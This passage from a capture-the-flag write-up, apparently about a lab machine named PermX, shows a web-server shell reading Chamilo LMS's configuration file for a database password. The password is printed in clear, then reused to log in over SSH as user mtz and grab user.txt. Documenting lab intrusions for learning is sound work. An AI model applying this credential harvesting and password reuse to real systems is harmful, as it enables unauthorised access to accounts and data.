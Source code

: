 We harvested some credentials from a `configuration file` inside the `app` directory of `Chamilo LMS` inside `/var/www/` which could be used to access the applications `database`.

```c
www-data@permx:/var/www/chamilo/app/config$ ^C
<milo/app/config$ cat configuration.php | grep password                      
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

| Password         |
| ---------------- |
| 03F6lY3uXAP2bkW8 |

## Privilege Escalation to mtz

### Password Reuse

Luckily for us, the password was `reused` by `mtz` and we were able to grab the `user.txt`.

```c
┌──(kali㉿kali)-[~]
└─$ ssh mtz@permx.htb
The authenticity of host 'permx.htb (10.129.221.151)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'permx.htb' (ED25519) to the list of known hosts.
mtz@permx.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jul  6 07:51:47 PM UTC 2024

  System load:           0.08
  Usage of /:            59.0% of 7.19GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             239
  Users logged in:       0
  IPv4 address for eth0: 10.129.221.151
  IPv6 address for eth0: dead:beef::250:56ff:fe94:ac60


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Mon Jul  1 13:09:13 2024 from 10.10.14.40
mtz@permx:~$
```
